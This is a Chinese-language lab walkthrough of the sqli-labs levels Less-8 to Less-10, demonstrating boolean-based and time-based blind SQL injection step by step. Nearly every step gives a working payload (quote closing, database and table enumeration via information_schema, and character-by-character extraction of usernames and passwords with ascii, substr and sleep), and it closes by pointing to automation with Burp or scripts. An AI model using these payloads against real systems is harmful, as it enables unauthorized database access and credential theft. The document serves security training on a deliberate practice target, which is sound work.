



# Chapter-1-靶场关卡

Less-8:GET-Blind-Boolian Based-Single Quotes

Less-9:GET-Blind-Time based-Single Quotes

Less-10:GET-Blind-Time based-double quotes

# Chapter-2-靶场实操完整SQLi流程

## Less-8

后台原始SQL:`SELECT * FROM users WHERE id='$id' LIMIT 0,1;`

### 步骤一：判断注入闭合类型

**paylaod:**`?id=1`

**payload:**`?id=1'`

**payload:**`?id=1' --+`

**payload:**`?id=1' and 1=1 --+`

**payload:**`?id=1' and 1=2 --+`

无数据库回显、无 SQL 报错信息；页面只有两种状态：显示You are in（条件为 True）/ 空白页面（条件 False），无法使用 union 联合注入、报错注入，只能布尔盲注

### 步骤二：猜当前数据库名长度

**payload:**`?id=1' and length(database())=8 --+`

不断修改等号后的数字测试，得出库名长度 = 8

### 步骤三：逐字符猜数据库名称

**payload:**`?id=1' and ascii(substr(database(),1,1))=115 --+`

> 解释：
- substr(字符串,起始位置,截取长度)：截取字符，这里从第 1 位截取 1 个字符
- ascii()：把字符转为 ASCII 码，避免引号冲突，适合盲注，115对应小写字母s，页面正常，证明第一位是s
- 依次修改substr第二个参数为2,3...8，依次得到：s e c u r i t y → security

### 步骤四：猜security库里面的表数量

**payload:**`?id=1' and (select count(table_name) from information_schema.tables where table_schema='security')=4 --+`

> 解释：
- information_schema.tables：mysql 系统表，存放所有库、表元数据
- table_schema='security'：限定只查当前 security 库
- count(table_name)统计表数量；页面正常，说明 security 库一共有 4 张表

### 步骤五：猜第一张表名长度和表名

猜长度：

**payload:**`?id=1' and length(select table_name from information_schema.tables where table_schema='security' limit 0,1)=6 --+`

**payload:**`?id=1' and length((select table_name from information_schema.tables where table_schema='security' limit 0,1))=6 --+`

length () 里面必须放值/标量，不能直接裸写一条 select 查询语句

执行(select ...)这条子查询，返回单个值，把这个返回值交给 length 计算长度。

猜表名：

**payload:**`?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1))=101 --+`

修改limit n,1可以依次取出第 n 张表；修改 substr 位置猜每一位字符。

重点目标：users表，存放账号密码。

### 步骤六：猜users表内字段名（列名）

**payload:**`?id=1' and ascii(substr((select column_name from information_schema.columns where table_schema='security' and table_name='users' limit 0,1),1,1))=105 --+`

information_schema.columns系统表，用来查询字段名

table_name='users'限定表为 users 表

拿到字段：id,username,password

### 步骤七：爆users表账号密码数据

**payload:**`?id=1' and ascii(substr((select username from security.users limit 0,1),1,1))=68 --+`

limit 0,1取 users 表第一条记录；修改username为password即可猜密码；修改 limit 第一个数字遍历所有用户。

>注：手工盲注效率极低，实际场景一般自动化脚本 / 工具爆破。

## Less-9

后台原始SQL：`SELECT * FROM users WHERE id='$id' LIMIT 0,1;`

### 步骤一：判断注入闭合类型

**payload:**`?id=1`

**payload:**`?id=1'`

页面无变化（不会报错，看不出异常）

**payload:**`?id=1' and sleep(5) --+`

页面明显延迟 5 秒加载，证明单引号成功闭合，语句执行。

**payload:**`?id=1 and sleep(5) --+`

页面不延时，说明是字符型注入，单引号闭合

### 步骤二：猜当前数据库名长度

**payload:**`?id=1' and if(length(database())=8,sleep(5),1) --+`

页面延迟 5 秒打开 → 条件成立，库名长度 = 8

if(条件,真时执行,假时执行)

条件成立 → 执行sleep(5)，页面延时

条件不成立 → 执行1，不延时，页面瞬间加载

### 步骤三：逐字符猜数据库名称

**payload:**`?id=1' and if(ascii(substr(database(),1,1))=115,sleep(5),1) --+`

substr(database(),1,1)：截取库名第 1 位字符

ascii()：转 ASCII 码，规避引号冲突

延时出现 → 条件成立，第一位字符 ASCII=115，对应s

修改 substr 第二个参数为2,3...8，依次猜出：s e c u r i t y

### 步骤四：猜security库里面的表数量

**paylaod:**`?id=1' and if((select count(table_name) from information_schema.tables where table_schema='security')=4,sleep(5),1) --+`

延时出现，代表 security 库一共有 4 张表。

### 步骤五：猜第一张表名长度和表名

猜长度：

**payload:**`?id=1' and if(length((select table_name from information_schema.tables where table_schema='security' limit 0,1))=6,sleep(5),1) --+`

内层(select ...)标量子查询，两层括号

延时出现，第一张表emails长度为 6

猜表名第一位字符：

**payload:**`?id=1' and if(ascii(substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1))=101,sleep(5),1) --+`

修改limit n,1切换第 n 张表；修改 substr 位置逐个猜字符，目标找到users表。

### 步骤六：猜users表内字段名

**payload:**`?id=1' and if(ascii(substr((select column_name from information_schema.columns where table_schema='security' and table_name='users' limit 0,1),1,1))=105,sleep(5),1) --+`

查询information_schema.columns系统表，获取 users 表字段：id,username,password

### 步骤七：爆users表账号密码数据

**payload:**`?id=1' and if(ascii(substr((select username from security.users limit 0,1),1,1))=68,sleep(5),1) --+`

limit 0,1取第一条用户；把username替换成password即可猜密码；修改 limit 第一个数字遍历全部用户。

>总结：网络波动容易误判；sleep 会占用数据库连接，延时不要设置过大（一般 3~5 秒）。

>手工时间盲注非常耗时间，实战使用 Burp 或者脚本自动化。

## Less-10

逻辑和 Less-9 完全一致，只把单引号改成双引号。